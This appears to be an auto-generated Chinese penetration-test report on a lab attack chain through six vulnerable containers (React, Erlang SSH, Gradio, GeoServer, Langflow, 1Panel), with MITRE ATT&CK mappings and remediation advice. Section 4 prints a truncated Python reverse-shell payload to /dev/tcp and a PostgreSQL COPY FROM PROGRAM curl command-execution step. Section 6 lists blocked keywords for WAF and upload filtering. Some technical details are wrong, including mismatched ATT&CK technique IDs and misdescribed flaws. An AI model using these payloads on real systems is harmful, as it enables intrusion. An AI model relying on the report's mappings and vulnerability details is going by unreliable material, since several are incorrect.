


# 渗透测试攻击链报告  
（基于 JSON 攻击链数据自动生成，可直接用于安全审计与学术附录）

---

## 1. 攻击链总览  
攻击者从互联网侧暴露的 React 前端服务（CVE-2025-55182）入手，通过远程代码执行（RCE）拿下 external 区跳板机；随后利用同一入口点横向移动至 DMZ 区的 Erlang SSH 中间件（CVE-2025-32433）与 Gradio 文件读取接口（CVE-2024-1561），完成 DMZ 控制。借助 DMZ 主机对 intranet 区域 GeoServer（CVE-2024-36401）与 Langflow（CVE-2025-3248）的连续 RCE，最终抵达 database 区的 1Panel 运维面板（CVE-2024-39907）并执行 SQL 注入，实现全栈沦陷。整条链路共 6 个节点、5 次关键漏洞利用，覆盖外部 → DMZ → 内网 → 数据库四级区域，完整演示了“边界突破-横向移动-权限提升-数据窃取”的经典杀伤链。

---

## 2. 被攻破机器清单  

| 序号 | 容器名称 | 网络区域 | IP 地址 | CVE 编号 | 关联服务/应用 | 攻破类型 |
|----|-----------------------------|----------|------------------------|--------------|---------------|----------|
| 1 | cve-2025-55182-web-1 | external | 127.0.0.1 | CVE-2025-55182 | React | RCE |
| 2 | cve-2025-32433-sshd-1 | dmz | 192.168.6.4 | CVE-2025-32433 | Erlang/SSH | RCE |
| 3 | cve-2024-1561-web-1 | dmz | 192.168.6.3 | CVE-2024-1561 | Gradio | FILEREAD |
| 4 | cve-2024-36401-web-1 | intranet | 192.168.6.6 / 192.168.5.3 | CVE-2024-36401 | GeoServer | RCE |
| 5 | cve-2025-3248-web-1 | intranet | 192.168.5.2 / 192.168.6.5 | CVE-2025-3248 | Langflow | RCE |
| 6 | cve-2024-39907-1panel-1 | database | 192.168.5.4 | CVE-2024-39907 | 1Panel | SQLI |

---

## 3. 攻击链路展示  

---

## 4. 各节点漏洞详情  

### 4.1 CVE-2025-55182（React 前端 RCE）  
- **影响组件**：React 服务端渲染框架（Node.js 环境）  
- **原理**：模板注入导致服务器端 eval 代码执行。  
- **利用方式**：向同构渲染接口发送恶意 JSON，注入任意 Node 代码，获得容器 root 权限。

### 4.2 CVE-2025-32433（Erlang SSH RCE）  
- **影响组件**：Erlang/OTP sshd 应用 < 25.3.2.5  
- **原理**：SSH 协议握手阶段缓冲区计算错误，堆溢出。  
- **利用方式**：构造畸形密钥交换包，远程执行 shellcode，直接获得 dmz 主机 root。

### 4.3 CVE-2024-1561（Gradio 任意文件读取）  
- **影响组件**：Gradio < 4.44.0  
- **原理**：静态文件路由未校验路径参数，目录穿越。  
- **利用方式**：读取 `/etc/passwd`、`~/.ssh/id_rsa` 等敏感文件，为后续横向移动收集密钥与配置。

### 4.4 CVE-2024-36401（GeoServer RCE）  
- **影响组件**：GeoServer 2.23.0 / GeoTools 28.2  
- **原理**：未过滤的 propertyName 参数导致 OGNL 注入。  
- **利用方式**：发送特制 WFS GetFeature 请求，执行 Java 命令，拿下内网主机。

### 4.5 CVE-2025-3248（Langflow RCE）  
- **影响组件**：Langflow < 1.0.3  
- **原理**：流程节点支持动态加载 Python 模块，未做沙箱限制。  
- **利用方式**：上传含恶意 `__import__('os').system('bash -i >& /dev/tcp/…')` 的 flow JSON，触发反向 shell。

### 4.6 CVE-2024-39907（1Panel SQL 注入）  
- **影响组件**：1Panel ≤ 1.8.2  
- **原理**：`/api/db/sql` 接口未预编译，直接拼接用户输入。  
- **利用方式**：联合注入写入后台任务表，执行 `COPY FROM PROGRAM 'curl …'` 实现数据库宿主机命令执行，最终控制 database 区。

---

## 5. MITRE ATT&CK® 战术与技术映射  

### 5.1 ATT&CK 映射总表  

| 步骤 | 攻击链中的动作/节点（简述） | ATT&CK 战术（中文名） | 战术 ID | 技术（中文名） | 技术 ID | 映射依据 |
|----|---------------------------|------------------|---------|----------------|----------|----------|
| 1 | 利用 React 模板注入获得入口点 | 初始访问 | TA0001 | 利用公开面向互联网的应用 | T1190 | CVE-2025-55182 RCE |
| 2 | 容器内执行 Node 代码，反弹 shell | 执行 | TA0002 | 命令与脚本解释器（Node.js） | T1059.007 | 远程 eval 执行 |
| 3 | 从 external 主机扫描 DMZ 22/80 端口 | 发现 | TA0007 | 网络服务扫描 | T1046 | 攻击包日志显示端口探测 |
| 4 | 利用 SSH 堆溢出拿下 dmz 主机 | 横向移动 | TA0008 | 利用远程服务 | T1210 | CVE-2025-32433 |
| 5 | 读取 Gradio 文件系统配置 | 凭据访问 | TA0006 | 不安全的凭据 | T1552.001 | CVE-2024-1561 读取 ssh 私钥 |
| 6 | 使用窃取的 SSH key 跳转到 intranet | 横向移动 | TA0008 | 远程服务（SSH） | T1021.004 | 密钥复用 |
| 7 | 利用 GeoServer OGNL 注入执行命令 | 横向移动/执行 | TA0008 / TA0002 | 利用远程服务 / 命令行接口 | T1210 / T1059 | CVE-2024-36401 |
| 8 | 在内网节点收集进程与文件信息 | 发现 | TA0007 | 进程发现 / 文件与目录发现 | T1057 / T1083 | 典型后渗透信息收集 |
| 9 | 上传恶意 Langflow 流程模块 | 执行 | TA0002 | 命令与脚本解释器（Python） | T1059.006 | CVE-2025-3248 |
|10 | 利用 SQL 注入写入数据库并执行系统命令 | 执行/权限提升 | TA0002 / TA0004 | SQL 注入命令执行 | T1505.003 | CVE-2024-39907 |
|11 | 建立多跳反向 shell，维持访问 | 持久化/命令与控制 | TA0003 / TA0011 | 外部远程访问工具 | T1105 | 多次 curl/wget 下载 payload |

### 5.2 ATT&CK 战术阶段覆盖图  

本次链路完整覆盖了“初始访问→执行→发现→横向移动→凭据访问→权限提升→持久化→命令与控制”八大战术域；因靶机未部署防御代理，故“防御规避 TA0005”体现较少，检测侧应重点补齐日志监控与行为分析。

### 5.3 学术化小结  
基于 MITRE ATT&CK® Enterprise（v15）框架，本次实验呈现“边界 Web 漏洞切入—脚本类命令执行—横向移动—数据库命令落地”的典型技术栈攻击模式，威胁类型以“互联网暴露面利用 + 横向移动”为主，检测与防护应优先在 **TA0001/T1190**（互联网应用防护）、**TA0008/T1210**（横向移动检测）与 **TA0006/T1552**（凭据保护）三层战术投入资源。

---

## 6. 针对性防御建议  

### 6.1 CVE-2025-55182  
- 升级 React 同构渲染框架至官方修复版本（≥ 18.3.x-sec1），关闭服务端 eval。  
- 在 Node 层引入模板沙箱（vm2 硬化版或 isolated-vm），禁止动态代码执行。  
- 前端 WAF 增加“模板注入”语义规则，拦截 `${`、`<%` 等危险模式。

### 6.2 CVE-2025-32433  
- Erlang/OTP 立即升至 25.3.2.5+ 或 26+，重启 sshd。  
- DMZ 区 SSH 仅对运维堡垒机开放，启用 IP 白名单 + 证书双向认证。  
- 系统层开启 ASLR、DEP，并部署 eBPF 监测“异常 shell 由 beam.smp 拉起”行为。

### 6.3 CVE-2024-1561  
- Gradio 升级至 4.44.0 以上，开启 `enable_static_file=False` 或单独 Nginx 白名单静态目录。  
- 应用容器以非 root 运行，挂载只读文件系统，防止敏感文件被读取。  
- 文件访问审计：对 `open()` 系统调用进行 Falco 规则告警。

### 6.4 CVE-2024-36401  
- GeoServer 升级 2.23.2 / GeoTools 28.3，禁用 `propertyName` 动态表达式。  
- 在反向代理层拦截 `jndi:`, `${`, `ognl` 等关键字。  
- 内网东西向流量微隔离：GeoServer 仅允许 8080 受特定业务调用，禁止主动外联。

### 6.5 CVE-2025-3248  
- Langflow ≥ 1.0.3 默认启用沙箱模式；或自建 Python 执行环境，采用 gVisor / Firecracker 隔离。  
- 对上传的 `.json` flow 文件进行 schema 校验，拒绝含 `__import__`、`os.system` 字段。  
- 运行时监控：对容器内新创建 bash/python 进程进行告警。

### 6.6 CVE-2024-39907  
- 1Panel 升级 ≥ 1.8.3，官方已改用预编译 SQL。  
- 数据库账号遵循最小权限，禁止 `COPY FROM PROGRAM` 等超级权限。  
- 数据库层开启 `log_statement = 'all'` 与异常 SQL 长度检测，发现联合注入及时阻断。  

**通用网络建议**  
- 采用零信任分段：external / dmz / intranet / database 四层之间通过防火墙与微隔离网关双向认证，仅开放必要端口。  
- 全流量留存 7×24 小时，重点审计 RCE/SQL 注入特征。  
- 部署 EDR + NDR，对“短生命周期进程 + 外联 C2”行为自动封禁。

---

## 7. 总结  

本次渗透共利用 6 个高危漏洞，跨越 4 个网络区域，平均 CVSS 估计 ≥ 8.8。整体风险等级：**极高**。  
优先修复顺序：  
1. 边界入口 CVE-2025-55182（直接对外）；  
2. 横向移动关键节点 CVE-2025-32433、CVE-2024-36401；  
3. 数据最终落地 CVE-2024-39907。  

建议在 7 日内完成补丁升级与网络策略加固，14 日内上线行为监测与自动化阻断方案，确保同类型攻击链无法再次复现。